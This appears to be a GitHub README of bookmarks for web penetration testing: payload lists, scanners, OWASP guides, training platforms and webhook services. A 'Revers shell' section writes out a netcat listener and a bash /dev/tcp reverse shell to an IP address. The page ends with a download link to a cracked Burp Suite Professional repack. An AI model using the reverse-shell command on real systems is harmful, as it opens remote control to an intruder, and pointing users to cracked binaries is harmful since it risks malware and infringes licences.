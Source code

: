 <div align="center">
  <img src="https://i.imgur.com/sHcFK7G.jpg">
  <h1 align="center">
</div>
 
## Main links

 - [Temp email](https://linux0.net/)
 - [Cyberchief](https://gchq.github.io/CyberChef/)
 - [JWT.io](https://jwt.io/)
 - [Revshellgenerator](https://tex2e.github.io/reverse-shell-generator/index.html)
 - [SecLists](https://github.com/danielmiessler/SecLists)
 - [bbfuzzing](https://github.com/reewardius/bbFuzzing.txt)
 - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
 - [fuzzdb]()https://github.com/Fananad/fuzzdb
 - [Chat GPT](https://chat.openai.com/)
 - [PEASS-ng](https://github.com/Fananad/PEASS-ng)
 - [Bookmarks](https://github.com/Fananad/offensive-bookmarks/tree/main)
 - [dropmefiles](https://dropmefiles.com)


## Scan CMS

 - [CMSmap](https://github.com/dionach/CMSmap)
 - [droopescan](https://github.com/SamJoan/droopescan)

## Resourses for reading
  
 - [OWASP WSTG ENG](https://github.com/OWASP/wstg/tree/master/document)
 - [OWASP WSTG RUS](https://github.com/andrettv/WSTG/tree/master/WSTG-ru)
 - [OWASP ASVS RUS](https://github.com/andrettv/ASVS/tree/master/4.0/ru)
 - [HackTricks](https://book.hacktricks.xyz/welcome/readme)
 - [Exploit DB](https://www.exploit-db.com/)
 - [Vulners](https://vulners.com/) 

# Academies
  
  - [PortSwigger](https://portswigger.net/)
  - [Academy](https://academy.hackthebox.com/dashboard/)
  - [TryHackme](https://tryhackme.com/)
  - [HackTheBox](https://www.hackthebox.com/)
  - [Hacker101](https://www.hacker101.com/)
  - [Codeby Games](https://codeby.games/categories)

# Revers shell 

  - [revshell](https://www.revshells.com/)
  - [ngrok](https://ngrok.com/)

  - python -c 'import pty;pty.spawn("/bin/bash")'
  - nc -lvnp 9999
  - sh -i >& /dev/tcp/10.8.34.51/9999 0>&1


# Search

  - [whois](https://whois.domaintools.com/)
  - [archive](https://archive.org/)
  - [archive ip,dns](viewdns.info)
  - [ip на одном хосте](https://suip.biz/ru/)

# APP
  - [cmd injection commix](https://github.com/commixproject/commix)
  - [ssti tplmap](https://github.com/epinna/tplmap)
  - [ngrok](https://ngrok.com/download)
  - [.DS_Srore](https://github.com/gehaxelt/Python-dsstore)

# Web hook

  - [webhook](https://webhook.site)
  - [equestbin](https://requestbin.com/r/)
  - [pipedream](https://pipedream.com)


## Download Burp

[CLICK THIS LINK](https://github.com/Maverick-25/Burp-Suite/releases/download/tool/Burp_Suite_Professional_2023.6.1_2023june15_repack-pwn3rzs.7z)
